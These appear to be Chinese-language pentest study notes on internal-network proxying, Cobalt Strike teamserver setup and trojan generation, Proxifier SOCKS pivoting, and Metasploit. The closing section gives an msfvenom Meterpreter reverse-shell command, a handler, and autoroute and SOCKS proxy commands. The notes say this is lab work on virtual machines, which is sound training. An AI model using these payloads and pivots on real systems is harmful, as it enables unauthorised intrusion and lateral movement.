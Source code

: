 ```yaml
---
categories: [渗透测试]
tags: 代理 CobaltStrike MSF
---
```


# 2023.10.08

## 内网代理与隧道

### 代理

解决不出网的问题，比如 A 主机在外网，B 主机在内网，这时就需要将 A 主机当作跳板去访问 B 主机。

#### 转发

端口转发，也是解决访问问题，只不过是将某一个端口转发到外网服务器上。

### 隧道

解决协议问题，比如禁用了 http 或者 tcp 协议，这时就只能使用 icmp 等一些底层协议。

> **_Question:_** 在内网渗透中，该如何选择代理方式及隧道方式？

---

### 正向马、反向马

#### 正向马（bind shell）

攻击端主动连接目标机，常用于**内网渗透**中

> **_Attention:_** 这种情况下，Kali 攻击机可以出网，但目标主机不能出网
> ![2023-10-09-11-24-07.png](https://s2.loli.net/2023/10/09/9V3HT7FCMDl4i15.png)

#### 反向马（reverse shell）

目标机主动连接攻击端，常用于目标主机在外网中，比如：一句话木马

> **_Attention:_** 这种情况下，目标机可以出网，但 kali 攻击机不能出网
> ![2023-10-09-11-26-01.png](https://s2.loli.net/2023/10/09/el4D9qRVBPAMyC1.png)

---

### Cobalt Strike 的部署及使用

hacker ----> 服务器（cs 部署在外网） ----> 受害机

```bash
# 服务器端
sudo ./teamserver '服务器IP' 'password'
# 客户端 kali linux
./start.sh # 弹出窗口后输入服务器ip地址，可修改端口，用户名，密码为服务器端启动时的password

# 客户端 windows
## 双击运行start.bat
```

### Cobalt Strike 生成 windows 木马，生成 linux 木马

> **_Note:_** 外网的环境暂时不会弄代理，现在暂时全部使用虚拟机测试使用 cs

#### Ubuntu 搭建 cs 服务端

```bash
# 更换镜像源（不知道为啥之前一直没换）
vi /etc/apt/sources.list

apt-get update
apt-get install openjdk-11-jdk

./teamserver '服务器ip' 'password'
```

<details> <summary>镜像源文件内容</summary>
<pre><code class="language-bash">
# 镜像源文件内容
# 默认注释了源码镜像以提高 apt update 速度，如有需要可自行取消注释
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# 预发布软件源，不建议启用
# deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
</code></pre>
</details>

#### kali linux 搭建 cs 客户端

1. 输入服务端相关信息登入客户端界面
2. 使用下图的方式生成一个 exe 木马
   ![image.png](https://s2.loli.net/2023/10/09/9qzFV6jvOUkrIte.png)
3. 将木马复制到 windows 机器中，双击执行
4. 成功上线
   ![2023-10-09-16-12-26.png](https://s2.loli.net/2023/10/09/pIcQhf4CkJ5z98s.png)

#### CobaltStrike&SOCKS代理使用
> **_Note:_**为什么使用SOCKS代理？
>  
> 方便进行内网渗透，访问内网服务。

hacker ----> web机器 ----> 内网服务机器

##### Proxifier
Proxifier是一款全局代理客户端，它可以让应用程序通过代理服务器连接到互联网。

1. 在ubuntu开启cs服务端，kali开启cs客户端后，对win11会话进行代理转发，设置SOCKS4a代理，端口为29064。
2. 开启Proxifier客户端，新建一个SOCKS4a代理，服务器ip为ubuntu的ip地址，即10.211.55.5，端口为刚刚开启代理转发的端口，即29064。
3. 如果这个win11机器本身是不出网的，无法访问，那么没有设置proxifier规则的浏览器是无法访问这个机器的；但是如果添加了代理转发规则，这个浏览器就可以访问这个本来不出网的机器了。这是因为，proxifie将请求转发给了cs（10.211.55.5:29064）这个代理服务器，代理服务器将这个请求转发给了这台不出网机器，从而在这二者之间建立起了连接，不出网机器也可以将响应返回给客户端。

### Metasploit 生成 windows 正向反向木马，Linux 正向反向木马
#### msf生成反向x86马
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.137 LPORT=2323 -f exe > shell.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp # 这里替换为生成使用的payload
set LHOST your-IP # msf所在机器的ip
set LPORT your-port # 连接的端口
exploit

show options # 查看配置

# 添加路由
run post/multi/manage/autoroute
# 查看路由
run autoroute -p
# 添加指定路由，1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
# 查看路由表
route print

# 设置SOCKS代理
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
```
